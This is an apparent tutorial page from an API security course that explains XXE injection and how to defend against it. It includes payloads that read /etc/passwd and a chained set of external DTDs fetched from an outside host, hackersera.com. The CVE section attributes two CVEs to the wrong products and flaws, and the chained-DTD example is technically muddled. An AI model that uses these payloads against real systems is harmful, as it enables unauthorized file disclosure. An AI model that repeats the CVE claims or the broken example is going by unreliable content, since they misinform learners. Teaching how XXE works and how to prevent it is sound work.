

## XML External Entity (XXE) Attacks

### Introduction to XML External Entity (XXE) Attacks

XML External Entity (XXE) attacks are a type of injection attack that exploits the processing of external entities within XML documents. These attacks can lead to unauthorized data disclosure, denial of service, server-side request forgery (SSRF), and other vulnerabilities. Understanding the mechanics of XXE attacks is crucial for both developers and security professionals to ensure the security of applications that process XML data.

### Background Theory

#### What is XML?

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which is primarily used for displaying data, XML focuses on the structure and content of the data itself. XML documents consist of elements, attributes, and text content, all of which are defined using tags.

#### XML Entities

Entities in XML are placeholders that represent specific pieces of data. They can be either internal or external. Internal entities are defined within the document itself, whereas external entities are defined in external resources such as files or URLs.

#### Example of XML Document

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT heading (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget me this weekend!</body>
</note>
```

In this example, the `<!DOCTYPE>` declaration defines the structure of the XML document, including the elements and their content types.

### XML External Entity (XXE) Injection

#### What is XXE Injection?

XXE injection occurs when an attacker can inject malicious XML content that includes references to external entities. These external entities can be used to access sensitive information, execute commands, or perform other malicious actions.

#### How XXE Injection Works

When an application processes an XML document, it may also process any external entities referenced within that document. If the application does not properly validate or sanitize these external entities, an attacker can inject malicious content that can be executed by the application.

#### Example of XXE Injection

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

In this example, the `<!ENTITY>` declaration defines an external entity named `xxe` that points to the `/etc/passwd` file on the server. When the application processes this XML document, it will attempt to read the contents of the `/etc/passwd` file and include it in the document.

### Real-World Examples and Recent CVEs

#### CVE-2018-11776: Apache Struts XXE Vulnerability

Apache Struts is a popular Java framework used for building web applications. In 2018, a critical XXE vulnerability was discovered in Apache Struts versions 2.3.x and 2.5.x. This vulnerability allowed attackers to inject malicious XML content that could be processed by the application, leading to unauthorized data disclosure and other security issues.

#### CVE-2021-21972: Spring Framework XXE Vulnerability

In 2021, a XXE vulnerability was discovered in the Spring Framework, a widely-used Java framework for building enterprise applications. This vulnerability affected versions 5.3.0 to 5.3.8 and allowed attackers to inject malicious XML content that could be processed by the application, leading to unauthorized data disclosure and other security issues.

### Detailed Example of XXE Attack

#### Step-by-Step Mechanics

1. **Inject Malicious XML Content**: An attacker injects malicious XML content that includes references to external entities.
2. **Process XML Document**: The application processes the XML document, including any external entities referenced within the document.
3. **Execute Malicious Actions**: The application executes the malicious actions specified by the external entities, leading to unauthorized data disclosure, command execution, or other security issues.

#### Complete Code Example

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://hackersera.com/first.dtd" >
]>
<foo>&xxe;</foo>
```

In this example, the `<!ENTITY>` declaration defines an external entity named `xxe` that points to a DTD hosted on `http://hackersera.com/first.dtd`. When the application processes this XML document, it will attempt to retrieve the DTD from the specified URL and include it in the document.

#### First DTD File (`first.dtd`)

```xml
<!ENTITY % xxe SYSTEM "http://hackersera.com/second.dtd">
%xxe;
```

In this DTD, the `%xxe` entity is defined to point to another DTD hosted on `http://hackersera.com/second.dtd`.

#### Second DTD File (`second.dtd`)

```xml
<!ENTITY % xxe SYSTEM "http://hackersera.com/third.dtd">
%xxe;
```

In this DTD, the `%xxe` entity is defined to point to yet another DTD hosted on `http://hackersera.com/third.dtd`.

#### Third DTD File (`third.dtd`)

```xml
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
%xxe;
```

In this DTD, the `%xxe` entity is defined to point to the `/etc/passwd` file on the server. When the application processes this XML document, it will attempt to read the contents of the `/etc/passwd` file and include it in the document.

### Mermaid Diagrams

#### Sequence Diagram



### Common Pitfalls and Mistakes

#### Not Properly Validating Input

One of the most common mistakes is not properly validating input. Applications should validate and sanitize all XML content to ensure that it does not contain malicious external entities.

#### Not Disabling External Entity Processing

Another common mistake is not disabling external entity processing. Many XML parsers provide options to disable external entity processing, which can help prevent XXE attacks.

### How to Prevent / Defend Against XXE Attacks

#### Detection

To detect XXE attacks, organizations should implement monitoring and logging mechanisms to detect suspicious XML content. This can include monitoring for unusual patterns of XML processing, such as frequent requests to external resources.

#### Prevention

To prevent XXE attacks, organizations should implement the following measures:

1. **Disable External Entity Processing**: Disable external entity processing in XML parsers to prevent the processing of malicious external entities.
2. **Validate and Sanitize Input**: Validate and sanitize all XML content to ensure that it does not contain malicious external entities.
3. **Use Secure Coding Practices**: Use secure coding practices to ensure that applications are not vulnerable to XXE attacks.

#### Secure Coding Fixes

##### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlContent)));
```

##### Secure Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlContent)));
```

In the secure code example, the `setFeature` method is used to disable external entity processing and disallow the declaration of DOCTYPE.

### Hands-On Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE attacks, including practical exercises and challenges.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE vulnerabilities for educational purposes.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that includes XXE vulnerabilities for educational purposes.

By practicing with these labs, you can gain a deeper understanding of XXE attacks and how to defend against them.

### Conclusion

Understanding and defending against XML External Entity (XXE) attacks is crucial for ensuring the security of applications that process XML data. By implementing proper validation, sanitization, and secure coding practices, organizations can prevent XXE attacks and protect their applications from unauthorized data disclosure and other security issues.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/19-XML Remote Entity Expansion Attack/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/19-XML Remote Entity Expansion Attack/02-Practice Questions & Answers|Practice Questions & Answers]]
